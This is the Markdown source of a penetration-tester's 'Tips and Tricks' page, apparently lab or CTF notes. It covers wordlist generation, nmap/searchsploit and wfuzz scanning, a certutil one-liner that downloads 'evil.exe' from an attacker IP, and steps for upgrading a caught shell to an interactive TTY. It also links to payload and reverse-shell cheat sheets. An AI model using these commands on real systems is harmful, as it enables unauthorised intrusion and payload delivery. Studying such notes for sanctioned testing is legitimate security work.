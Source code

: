 ```yaml
---
layout: tips
title: Tips and Tricks
---
```


Finding writable locations
==========================
{% highlight bash%}
find / -type d -writable 2> /dev/null
{% endhighlight %}

Creating Custom Wordlists
=========================
This can be easily achieved using [exrex][link13]:
{% highlight bash%}
python3 exrex.py "(winter|summer|spring|fall|autumn)20[12][678]" -o wordlist
{% endhighlight %}
[Cewl][link14] can also be used to automaticly generate a wordlist by scrapping a website:
{% highlight bash%}
cewl -d 0 https://www.testing.com/
{% endhighlight %}
One Liners
==========
Dowloading file via certutil
{% highlight bash%}
cmd.exe /C certutil  -split -urlcache -f http://10.10.14.1/evil.exe c:\Users\Admin\Desktop\notevil.exe
{% endhighlight %}
Nmap scan ran through searchsploit
{% highlight bash%}
nmap -p- -sV -oX new.xml 10.10.14.1; searchsploit --nmap new.xml
{% endhighlight %}
List al started services
{% highlight bash%}
cmd.exe /c wmic service where started=true get name, startname
{% endhighlight %}
Wfuzz
{% highlight bash%}
wfuzz -w /wordlist/directory-medium.txt --hc 404 http://testing.com/test.php?FUZZ=1
--hc 404 = exclude 404 response  
--hh 777 = exclude response with 777char  
For more details: [wfuzz][link15] 
{% endhighlight %}
Find all file in a directory and executing a command.
{% highlight bash%}
find . -type f -exec cat {} \;
{% endhighlight %}

Tmux shortcut
=============
{% highlight bash%}
Ctrl + b c :Create window</bloc>
Ctrl + b , :Rename current window
Ctrl + b % :Split pane vertically
Ctrl + b " :Split pane horizontally
Ctrl + b z :Toggle pane zoom
Ctrl + b ! :Convert pane into a window
Ctrl + b x :Close current pane
Ctrl + b [ :Enter copy mode
q : Quit mode
/ :Search forward
? :Search backward
n :Next keyword occurance
N :Previous keyword occurance
Spacebar   :Start selection
Esc        :Clear selection
Enter      :Copy selection
Ctrl + b ] : Paste contents of buffer_0
{% endhighlight %}

[Back to the top](#header)

Upgrading Simple Shells to Fully Interactive TTYs
=================================================
{% highlight python%}
python -c 'import pty; pty.spawn("/bin/bash")'
or
python3 -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

Then press CTRL+Z to return to your local shell

{% highlight bash%}
stty raw -echo
stty -a
{% endhighlight %}

Note the number of rows and columns before pressing fg to return to the box

{% highlight bash%}
export SHELL=bash
export TERM=xterm256-color
stty rows number_of_row columns number_of_columns
{% endhighlight %}

Enjoy!

[Back to the top](#header)

Finding non standard binaries 
==============================
{% highlight bash%}
for i in $(ls /sbin/*); do echo $i; done
for i in $(ls /sbin/*); do dpkg --search $i; done
for i in $(ls /sbin/*); do dpkg --search $i 1>/dev/null; done
{% endhighlight %}

To investigate on different location in the $PATH

[Back to the top](#header)

Interesting Links:
==================
- [jwt.io][link1]: Decode and edit jwt token
- [cyberchef][link3]: Decode and encode in multiple format
- [stackedit.io][link4]: Markdown editor
- [devhints.io][link5]: Jekyll dev ops tricks
- [jekyllrb.com][link6]: Jekyll tuto
- [PayloadsAllTheThings][link7]: Payload for everything
- [Netsec][link8]: Idea for future tutorials
- [Pentestmonkey][link9]: Reverse Shell Cheat Sheet
- [W3schools][link10]: Testing new layout
- [Jekyll Tags][link12]: For future reference

[Back to the top](#header)

[link1]:https://jwt.io/  
[link2]:http://jekyllrb.com
[link3]:https://gchq.github.io/CyberChef/
[link4]:https://stackedit.io/app#
[link5]:https://devhints.io/jekyll 
[link6]:https://jekyllrb.com/
[link7]:https://github.com/swisskyrepo/PayloadsAllTheThings
[link8]:https://netsec.ws/?p=376
[link9]:http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[link10]:https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_subnav
[link11]:https://github.com/infodox/python-pty-shells
[link12]:https://longqian.me/2017/02/09/github-jekyll-tag/
[link13]:https://github.com/asciimoo/exrex
[link14]:https://digi.ninja/projects/cewl.php
[link15]:https://wfuzz.readthedocs.io/en/latest/user/getting.html#getting-help
